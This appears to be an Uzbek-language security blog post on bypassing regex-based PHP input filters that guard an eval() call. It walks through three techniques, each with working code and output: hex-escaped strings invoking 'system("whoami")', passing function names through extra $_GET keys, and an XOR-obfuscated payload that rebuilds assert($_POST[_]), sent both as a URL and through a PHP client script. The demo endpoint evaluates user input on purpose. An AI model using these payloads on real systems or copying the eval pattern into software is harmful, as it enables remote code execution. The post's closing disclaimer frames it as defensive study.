 ```yaml
---
title: 'WAFni yorib kirish ( kiberxavfsizlik )'
description: "Axmoqlar uchun ishlab chiqilgan WAF tizimini chetlab o'tish. Saytlar xavfsizligini turli usullarda yorib kirish..."
slug: wafni-yorib-kirish-kiberxavfsizlik
date: August 30, 2022
---
```


Sarflavhani o'zidayoq ko'pchilikni waf o'zi nima degan savol o'ylantirgan bo'lsa kerak.

WAF - Web application firewall ya'ni web saytlarni xss, sql injection, cookie poisoning (cookie orqali zaharlash) kabi hujum turlaridan himoya qiladigan ilova
hisoblanadi. Ushbu ilova orqali siz hattoki teshik tog'oraga aylangan tizimni ham bemalol hujum scriptlarini filtrlash orqali himoya qilishingiz mumkin.

Lekin bu dunyoda xuddi odam immun tizimi kabi mukammal himoya tizimi mavjud emas. Har qanday himoya tizimini yorib o'tishning yo'llari mavjud.

## WAF qanday ishlaydi

WAF oldindan belgilangan filtrlash shartlariga binoan foydalanuvchidan kelayotgan murojaatlar orasidagi ishga tushirish mumkin bo'lgan kodni tozalaydi.

Misol uchun `sayhello` va `system` funsksiyalarini filtrlash. Bunda kritilgan matnda shart uchun qo'shilgan ikkita funksiya nomi bo'lsa xatolik beriladi:

```php

function sayhello( $text ) {
  echo "Salom: $text";
}
if ( ! preg_match('/sayhello|system/', $code ) ) {
	eval( $code );
}else{
	echo 'Ruxsat etilmagan kiritish';
}
```

## Chetlab o'tish

### Birinchi usul

PHPda `string` o'rgaruvchisini e'lon qilish vaqtida ekranizatsiya qilish mumkin. Soddaroq aytganda biz double quote ya'ni " belgisi orasida berilgan maxsus
belgilarni chop etishimiz mumkin. Yangi qator ( \n ), tabulator (\t) kabi maxsus belgilarni ko'pchilik ishlatib ko'rgan bo'lsa ham kerak.

Ular orasida belgilarni o'noltilik sanoq tizimida chop etish usuli ham kiritilgan. Misol "Salom dunyo!" yozuvi:

```php
echo "\x53\x61\x6c\x6f\x6d\x20\x64\x75\x6e\x79\x6f\x21";
```

Qo'shimcha tarzda esa php ham boshqa ko'plab tillardagi kabi o'zgaruvchilarga asoslangan funksiyalarni qo'llab quvvatlaydi.

Misol buyerda `$test` o'zgaruvchisi qavs belgilangach funskiyaga murojaat qilishga o'tyapti:

```php
$test = "sayhello";
$test('Toshmat');
```

Demak bizda o'n oltilik sanoq tizimiga asoslanib chop etish va o'zgaruvchini funsksiyaga murojaat qila olishi orqali yuqoridagi himoyani chetlab o'tish imkoni
mavjud.

```php
$code = '"\x73\x61\x79\x68\x65\x6c\x6c\x6f"("test");'; //"sayhello"("test");
```

Natija:

```
Salom: test
```

Yoki ikkinchi funskiya uchun murojaat:

```php
$code = '"\x73\x79\x73\x74\x65\x6d"("whoami");'; //"system"("whoami")
```

Natija:

```
sapper
```

### Ikkinchi usul

Ushbu usul uchun endi himoyani yanada kuchaytiramiz va murojaatlarini `$_GET` so'rovi orqali qabul qilamiz.

```php
$code = $_GET['code'];
if ( ! preg_match('/system|exec|[\"\']/', $code ) ) {
	eval( $code );
}else{
	echo 'Ruxsat etilmagan kiritish';
}
```

E'tibor bergan bo'lsangiz endi kodimizda tirnoq yoki qo'shtirnoqlarni ham filtrlash qo'shildi. Endi biz birinchi usuldan foydala olmaymiz. Lekin boshqa bir yo'l
ham mavjud. Massiv asosida chetlab o'tish. Kodimizda `$code` o'rgaruvchisi uchun `$_GET` massivining `code` kalitiga teng qiymatni belgilayapmiz. Lekin
massivdagi boshqa kalitlar e'tiborsizligicha qoldirilmoqda.

Demak biz http orqali quyidagi murojaatni amalga oshiramiz.

```
/hole.php?a=sayhello&b=test&code=$_GET[a]($_GET[b]);
```

Bunda `$_GET` massivining `code` elementiga himoyadagi `sayhello` va qo'shtirnoqlar biriktirilmayapti. Uning o'rniga tekshiruvdan tashqarida bo'lgan `a` va `b`
elementlarini o'rgaruvchi sifatida belgilash qo'llanilmoqda.

Natija:

```
**Notice**: Use of undefined constant a - assumed 'a' in **hole.php(14) : eval()'d code** on line **1**

**Notice**: Use of undefined constant b - assumed 'b' in **hole.php(14) : eval()'d code** on line **1**
Salom: test
```

### Uchinchi usul

Keling maydalashib o'tirmaylikda `string` imkoniyatlaridan voz kechaylik. Filtrlashdan qochishni dinamik o'rgaruvchi yaratib `assert` orqali tizimga
birlashtirib yuboraylik.

PHP da debugging uchun juda ko'p imkoniyatlar mavjud. Assert ham dasturni tekshirish jarayonida ishlatilib shart bajarilmaganda boshqa bir harakatni amalga
oshirish uchun qo'llaniladi.

Misol:

```php
<?php
$a = 1;
assert($a == 1, "O'zgaruvchi birga teng emas");
echo "Birinchi amal bajarildi";
assert($a == 2, "O'zgaruvchi birga teng emas");
echo "Ikkinchi amal bajarildi";
```

Bundan `$a` birinchi amalda rost javobini beradi. Chunki o'zgaruvchi birga teng. Ikkinchi amalda esa xatolik kuzatamiz chunki ikkiga teng emas.

```
Birinchi amal bajarildi
Fatal error: Uncaught AssertionError: O'zgaruvchi birga teng emas in code.php:5
Stack trace:
#0 code.php(5): assert(false, 'O'zgaruvchi bir...')
#1 {main}
  thrown in code.php on line 5
```

Demak biz bu usulda assertning shartni bajarish uchun unga murojaat qilish imkonidan foydalanamiz.

Xor operatori orqali esa dinamik belgi yaratamiz.

Misol:

```php
$_POST['_'] = 'sayhello("Toshmat");';
assert($_POST['_']);
```

Natija:

```
Salom: Toshmat
**Warning**: assert(): Assertion "sayhello("Toshmat");" failed in **test.php** on line **26**
```

_Xatolik chiqishiga sabab sayhello funksiyamizdan qayta rost (true) javobi kelmaganida. Lekin assert funksiyani ishga tushirdi_

Dinamik o'zgaruvchi generatsiya qilish uchun esa phpning XOR operatoridan foydalanamiz. Demak shart shunday belgilanishi kerakki ikkita bizga kerakli bo'lmagan
belgining xor natijasidan string uchun belgi chiqarishimiz kerak.

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

Yuqoridagi kodda xor sharti orqali dinamik o'zgaruvchi funksiya yaratilib uning argumenti sifatida `$_POST` so'rovidan kelgan `_` kalitiga teng qiymat
belgilanmoqda.

Demak sahifaga murojaat qilish:

```
/hole.php?code=$_=(%27%01%27^%27`%27).(%27%13%27^%27`%27).(%27%13%27^%27`%27).(%27%05%27^%27`%27).(%27%12%27^%27`%27).(%27%14%27^%27`%27);$__=%27_%27.(%27%0D%27^%27]%27).(%27%2F%27^%27`%27).(%27%0E%27^%27]%27).(%27%09%27^%27]%27);$___=$$__;$_($___[_]);
```

```php
<?php

$postdata = http_build_query(
    array(
        '_' => 'sayhello("Toshmat");',
    )
);
$opts = array('http' =>
    array(
        'method'  => 'POST',
        'header'  => 'Content-Type: application/x-www-form-urlencoded',
        'content' => $postdata
    )
);

$context  = stream_context_create($opts);

$result = file_get_contents('http://localhost/hole.php?code=$_=(%27%01%27^%27`%27).(%27%13%27^%27`%27).(%27%13%27^%27`%27).(%27%05%27^%27`%27).(%27%12%27^%27`%27).(%27%14%27^%27`%27);$__=%27_%27.(%27%0D%27^%27]%27).(%27%2F%27^%27`%27).(%27%0E%27^%27]%27).(%27%09%27^%27]%27);$___=$$__;$_($___[_]);', false, $context);

echo strip_tags( html_entity_decode( $result ) );
```

Natija:

```
Notice:  Use of undefined constant _ - assumed '_' in test.php(10) : eval()'d code on line 2
Salom: Toshmat
Warning:  assert(): Assertion "sayhello("Toshmat");" failed in test.php(10) : eval()'d code on line 2
```

## Xulosa

Yuqoridagi uchta usul bu shunchaki sizning kelajakdagi loyihalaringiz himoyasini ta'minlash uchun ko'rsatildi xolos. Sizdan iltimos qilib so'ragan bo'lardimki
ushbu o'rgangan bilimlaringizni kimgadir zarar yetkazish maqsadida qo'llamang.

Bunday harakatlar uchun O'zbekiston Respublikasini Jinoyat kodeksining 278-moddasi 5-bandida ham alohida ogohlantirishlar berilgan.

> Kompyuter sabotaji O‘zganing kompyuter uskunasini yoki xizmatda foydalaniladigan kompyuter uskunasini qasddan ishdan chiqarish, xuddi shuningdek kompyuter
> tizimini buzish (kompyuter sabotaji) — uch yilgacha muayyan huquqdan mahrum qilib, bazaviy hisoblash miqdorining uch yuz baravaridan to‘rt yuz baravarigacha
> miqdorda jarima yoki ikki yilgacha ozodlikni cheklash yoxud ikki yilgacha ozodlikdan mahrum qilish bilan jazolanadi.

